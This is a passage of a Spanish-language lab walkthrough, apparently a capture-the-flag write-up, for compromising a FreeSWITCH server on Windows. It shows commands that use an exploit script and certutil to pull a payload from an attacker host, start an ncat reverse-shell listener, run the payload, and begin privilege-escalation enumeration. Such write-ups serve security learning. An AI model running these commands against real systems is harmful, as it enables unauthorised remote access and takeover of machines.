 ```java
❯ python3 -m http.server 80
```

* Tercero, con `certutil` podemos descargar el archivo a la maquina victima

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] 'certutil -urlcache -f http://[IP-ATTACKER]/calc.exe calc.exe'
Authenticated
Content-Type: api/response
Content-Length: 71
```

* Cuarto, ponemos a la escucha `ncat` para recibir la consola

```java
❯ rlwrap ncat -lvnp 443
```

* Quinto, ejecutemos el fichero malicioso

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] '.\calc.exe'
```

Si lo hiciste bien, debes de tener una consola de la maquina victima

### Escalada de privilegios

![20231108125429.png](20231108125429.png)8

Enumerando el sistema encotramos:

```java
C:\Program Files\FreeSWITCH>whoami /priv
```

El usuario tiene habilitado el SeImpersonate
